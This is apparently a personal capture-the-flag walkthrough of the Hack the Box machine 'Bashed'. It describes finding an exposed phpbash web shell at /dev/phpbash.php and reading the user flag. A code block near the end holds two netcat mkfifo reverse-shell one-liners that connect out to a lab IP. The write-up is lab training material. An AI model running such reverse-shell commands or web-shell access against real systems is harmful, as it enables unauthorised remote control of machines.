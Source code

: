 # Website

This website seems to be a promotional page for a replica bash shell written in PHP.

![[Pasted image 20210505083541.png]]

The links all point back to `index.html`

![[Pasted image 20210505085925.png]]

I also checked the source, but there were no hidden links and the form submission didn't go anywhere. It did mention PHP:

![[Pasted image 20210505090749.png]]

As the source and the site itself both mention php, I quickly checked if the `.php` extension was valid:

![[Pasted image 20210505085959.png]]

But it seemed the index page at least was running on pure HTML.

The blog post, dated in 2017, suggests that the web shell is available on the server, and even gives us a potential URL:

![[Pasted image 20210505090142.png]]

We can also see the source code at: [https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash). We'll come back to this if needed.

I tried the URL from the screenshot, but it was not found:

![[Pasted image 20210505090246.png]]

Neither was `/phpbash.php`.

## PHP Web Shell

I ran a [[Cybersecurity/Writeups/Hack the Box/Boxes/Bashed/5 - Enumeration#Gobuster|quick gobuster]] to check for potential directories for the script. It found `/php/` and `/dev/`. I tried `/php/phpbash.php`, and then `/dev/phpbash.php`, which worked:

![[Pasted image 20210505090543.png]]

I did some very quick enumeration, looking for users and quickly finding that `arrexel`'s home directory was world-readable. This gives us the user flag:

![[Pasted image 20210505091030.png]]

## Trying to Get a Reverse Shell

Before I enumerated more for priv esc, I wanted a better shell. I tried a few commands, to no avail:

![[Pasted image 20210505093721.png]]

I googled "netcat openbsd reverse shell" and tried the following commands:

```bash
www-data@bashed:/var/www/html/dev# rm /tmp/f;mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9001 >/tmp/f

www-data@bashed:/var/www/html/dev# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.13 9001 >/tmp/f
```

But I got no result.

I also tried the `upload` custom command mentioned in the source code, to no avail.

![[Pasted image 20210505101232.png]]

I decided to continue with enumeration and come back to this once I'd rooted the box and see if anyone had done it in a writeup.